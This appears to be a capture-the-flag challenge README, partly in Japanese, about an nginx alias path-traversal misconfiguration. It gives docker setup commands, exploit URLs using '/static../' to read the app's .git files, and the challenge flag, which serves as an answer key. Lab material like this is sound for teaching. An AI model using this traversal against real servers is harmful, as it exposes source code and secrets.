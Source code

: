 # Nginx alias traversal

## 環境構築

```
$ docker build -t nginx-revenge .
$ docker run -d -p 127.0.0.1:8000:80 nginx-revenge:latest
```

## Exploit
gitのコミットメッセージがflagになっている
`flag{ng1nx_r3v3ng3_m4tch}`

http://localhost:8000/static../.git/logs/refs/heads/master

or

http://localhost:8000/static../.git/COMMIT_EDITMSG
